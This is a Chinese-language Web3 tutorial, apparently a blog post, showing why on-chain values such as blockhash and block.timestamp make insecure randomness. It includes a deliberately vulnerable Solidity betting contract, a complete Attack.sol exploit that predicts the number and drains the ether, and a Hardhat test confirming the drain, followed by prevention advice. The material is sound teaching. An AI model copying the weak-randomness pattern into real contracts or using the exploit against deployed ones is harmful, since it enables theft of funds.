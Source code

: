 ```yaml
---
title: Web3系列教程之高级篇---6：为什么你不应该在没有预言机的情况下在链上生成随机数
description: null
author: 李留白
weight: 0
date: 2022-08-05T15:01:33.414Z
lastmod: 2022-08-05T15:01:45.868Z
tags: []
categories:
  - 区块链
  - WEB3.0
featuredImage: https://hicoldcat.oss-cn-hangzhou.aliyuncs.com/img/R3RYera.png
---
```


![](https://hicoldcat.oss-cn-hangzhou.aliyuncs.com/img/20220805223012.png)

随机性是一个难题。计算机运行由程序员编写的代码，并遵循给定的步骤序列。因此，设计一个能够给你一个“随机”数的算法是非常困难的，因为该随机数必须来自遵循特定步骤序列的算法。现在，当然，某些功能比其他功能更好。

在这种情况下，我们将专门研究为什么你不能信任链上数据作为随机源（以及为什么我们在进阶课程中使用的 Chainlink VRF 被创建的原因）。

## 要求
- 我们将建立一个有一组牌的游戏。
- 每张牌都有一个与之相关的数字，范围从0到2²⁵⁶-1。
- 玩家将猜测一个将要被选中的数字。
- 然后，庄家将随机从牌包中拿起一张牌。
- 如果有人猜对了数字，他们将赢得0.1个ETH。
- 我们今天将破解这个游戏 :)

## 构建

为了构建智能合约，我们将使用Hardhat。Hardhat是一个Ethereum开发环境和框架，为Solidity的全栈开发而设计。简单地说，你可以编写你的智能合约，部署它们，运行测试，并调试你的代码。

- 在你的文件夹中，你将建立一个Hardhat项目

```bash
npm init --yes
npm install --save-dev hardhat
```

- 如果你使用的是Windows系统，请做这个额外的步骤，同时安装这些库 :)

```
npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
```

- 在你安装Hardhat的同一目录下运行。

```bash
npx hardhat
```
- 选择`Create a basic sample project`
- 对已指定的`Hardhat Project root`按回车键
- 如果你想添加一个`.gitignore`，请按回车键。
- 按回车键`Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

现在你有一个准备好的hardhat项目了!

- 让我们先了解一下abi.encodedPacked是做什么的。

我们以前在入门NFT教程中使用过`abi.encode`。它是一种将多种数据类型串联成一个字节数组的方法，然后可以将其转换为一个字符串。这经常被用来计算NFT集合的`tokenURI`。 `encodePacked`更进一步，将多个值串联成一个字节数组，但也摆脱了任何填充和额外的值。这意味着什么呢？让我们以`uint256`为例。`uint256`的数字有256位。但是，如果存储的值只是`1`，使用`abi.encode`将创建一个有255个`0`和只有1个`1`的字符串。使用`abi.encodePacked`将摆脱所有额外的0，而只是将`1`的值连接起来。

关于`abi.encodePacked`的更多信息，请继续阅读[这篇文章](https://medium.com/@libertylocked/what-are-abi-encoding-functions-in-solidity-0-4-24-c1a90b5ddce8)

- 在你的`contracts`文件夹中创建一个名为`Game.sol`的文件，并添加以下几行代码。

```
// SPDX-License-Identifier: MIT
  pragma solidity ^0.8.4;

  contract Game {
  constructor() payable {}

      /**
          Randomly picks a number out of `0 to 2²⁵⁶–1`.
      */
      function pickACard() private view returns(uint) {
          // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
          // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
          // which is further converted to a `uint`.
          // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
          uint pickedCard = uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)));
          return pickedCard;
      }

      /**
          It begins the game by first choosing a random number by calling `pickACard`
          It then verifies if the random number selected is equal to `_guess` passed by the player
          If the player guessed the correct number, it sends the player `0.1 ether`
      */
      function guess(uint _guess) public {
          uint _pickedCard = pickACard();
          if(_guess == _pickedCard){
              (bool sent,) = msg.sender.call{value: 0.1 ether}("");
              require(sent, "Failed to send ether");
          }
      }

      /**
          Returns the balance of ether in the contract
      */
      function getBalance() view public returns(uint) {
          return address(this).balance;
      }

  }
```

- 现在在你的`contracts`文件夹中创建一个名为`Attack.sol`的文件，并添加以下几行代码。

```
// SPDX-License-Identifier: MIT
  pragma solidity ^0.8.4;

  import "./Game.sol";

  contract Attack {
      Game game;
      /**
          Creates an instance of Game contract with the help of `gameAddress`
      */
      constructor(address gameAddress) {
          game = Game(gameAddress);
      }

      /**
          attacks the `Game` contract by guessing the exact number because `blockhash` and `block.timestamp`
          is accessible publically
      */
      function attack() public {
          // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
          // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
          // which is further converted to a `uint`.
          // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
          uint _guess = uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)));
          game.guess(_guess);
      }

      // Gets called when the contract recieves ether
      receive() external payable{}
  }
```

- 攻击是如何发生的，如下所示。
  - 黑客调用`Attack.sol`中的`attack`函数。
  - 攻击者使用与`Game.sol`相同的方法进一步猜测数字，即`uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp))`
  - 攻击者能够猜到相同的数字，因为blockhash和block.timestamp是公共信息，每个人都可以访问它。
  - 攻击者随后调用`Game.sol`中的`guess`函数
  - `guess`首先调用`pickACard`函数，该函数使用`uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp))`生成相同的数字，因为`pickACard`和`attack`都是在同一个区块内调用的。
  - `guess`比较这些数字，结果发现它们是一样的。
  - `guess`然后发送`Attack.sol` `0.1 ether`，游戏结束。
  - 攻击者成功地猜出了随机数
- 现在让我们写一些测试来验证它是否完全按照我们希望的那样工作。

- 在`test`文件夹中创建一个名为`attack.js`的新文件，并添加以下几行代码

```js
const { ethers, waffle } = require("hardhat");
const { expect } = require("chai");
const { BigNumber, utils } = require("ethers");

describe("Attack", function () {
  it("Should be able to guess the exact number", async function () {
    // Deploy the Game contract
    const Game = await ethers.getContractFactory("Game");
    const _game = await Game.deploy({ value: utils.parseEther("0.1") });
    await _game.deployed();

    console.log("Game contract address", _game.address);

    // Deploy the attack contract
    const Attack = await ethers.getContractFactory("Attack");
    const _attack = await Attack.deploy(_game.address);

    console.log("Attack contract address", _attack.address);

    // Attack the Game contract
    const tx = await _attack.attack();
    await tx.wait();

    const balanceGame = await _game.getBalance();
    // Balance of the Game contract should be 0
    expect(balanceGame).to.equal(BigNumber.from("0"));
  });
});
```

- 现在打开一个终端，指向`Source-of-Randomness`文件夹，执行以下内容

```
npx hardhat test
```

- 如果你所有的测试都通过了，你就成功地完成了黑客的工作 :)

## 预防措施

- 不要使用`blockhash`、`block.timestamp`或真正的任何种类的链上数据作为随机性的来源。

- 你可以使用 [Chainlink VRF's](https://docs.chain.link/docs/chainlink-vrf/) 来获得真正的随机性来源

![](https://hicoldcat.oss-cn-hangzhou.aliyuncs.com/img/my.png)